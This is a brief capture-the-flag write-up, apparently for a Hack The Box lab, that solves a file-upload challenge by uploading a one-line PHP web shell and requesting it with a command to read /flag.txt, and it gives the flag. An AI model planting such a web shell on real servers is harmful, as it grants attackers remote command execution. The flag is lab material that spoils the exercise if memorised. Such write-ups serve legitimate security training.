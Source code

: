 ## Challenge

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt 

## Solution

I created a php web shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

saved it into a file and uploaded to the web page.

Then used the `cmd` url and executed `cat` to read the flag:

```sh
http://83.136.250.192:57802/uploads/shell.php?cmd=cat%20/flag.txt
```

This gave the flag `HTB{g07_my_f1r57_w3b_5h3ll}`.